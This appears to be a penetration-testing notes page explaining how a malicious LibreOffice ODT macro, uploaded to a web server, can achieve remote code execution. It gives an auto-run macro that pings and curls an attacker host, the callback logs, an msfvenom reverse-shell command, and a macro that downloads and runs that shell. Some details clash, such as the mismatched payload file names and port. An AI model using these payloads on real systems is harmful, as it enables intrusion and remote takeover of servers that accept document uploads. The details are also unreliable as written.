

---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---

# ODT

The ODT file type is the default document format used by LibreOffice Writer and other OpenDocument-compatible applications. It belongs to the [OpenDocument Text](https://www.libreoffice.org/discover/what-is-opendocument/) (ODT) standard, which defines how word processing documents are structured, stored, and exchanged across different platforms. Internally, an ODT file is **a compressed ZIP archive that contains multiple XML-based files and directories**. These components define the document’s content, formatting, metadata, and embedded elements such as images or macros. Because of this structure, an ODT can be unpacked with standard archive utilities and examined directly, making it easier to analyze or manipulate at a granular level.

When there is upload functionality on a webserver accepting `.odt` files, macros can be leveraged to achieve RCE. Simple payloads, like pingbacks and `GET` requests, can used as a test:

1. Create a basic macro (1) under the document's name (2).
2. Try some testing payloads first, such as pingbacks and `GET` requests (3).
3. Make the macro execute as soon as the document opens (4 & 5).

<figure><figcaption></figcaption></figure>

```vba
Sub Main
	' Ping the attacking host one time
	Shell("cmd /c ping -n 1 192.168.45.241")
	' Wait for two seconds
	Wait(200)
	' Send a GET request to an attacker-controlled webserver 
	Shell("cmd /c curl 'http://192.168.45.241/test'")
End Sub
```

```bash
# Test pingback
$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
22:05:27.230793 IP craft > 192.168.45.241: ICMP echo request, id 1, seq 1, length 40
22:05:27.230891 IP 192.168.45.241 > craft: ICMP echo reply, id 1, seq 1, length 40
​
# Test HTTP GET request
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.156.169 - - [16/Aug/2025 22:07:44] code 404, message File not found
192.168.156.169 - - [16/Aug/2025 22:07:44] "GET /test HTTP/1.1" 404 -
```

Once the test payloads are validated, they can mofidied as desired:


```bash
# Create a reverse shell payload
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.241 LPORT=443 -f exe -o revshell_443.exe
```



```vba
Sub Main
	' Download the payload on the target
	Shell("cmd /c 'curl http://192.168.45.241:443/revshell.exe' -o 'c:\windows\temp\revshell.exe'")
	' Wait for five seconds to ensure the payload has been downloaded
	Wait(5000)
	' Execute the payload
	Shell("cmd /c 'c:\windows\temp\revshell.exe'")
End Sub
```

